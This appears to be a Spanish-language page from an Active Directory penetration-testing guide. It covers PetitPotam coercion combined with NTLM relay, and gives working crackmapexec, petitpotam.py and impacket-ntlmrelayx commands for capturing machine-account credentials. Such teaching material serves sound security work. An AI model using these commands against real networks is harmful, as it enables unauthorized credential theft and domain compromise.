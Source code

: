 # Coercionar a la Víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/): _Crackmapexec | Responder | ntlmrelayx | Proxychains | Impacket-secretsdump | lsassy | DonPAPI | impacket-smbclient | impacket-smbexec_

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam1.png?raw=true "petitpotam")

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam2.png?raw=true "NTLM relay petitpotam")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam3.png?raw=true "NTLM relay petitpotam")
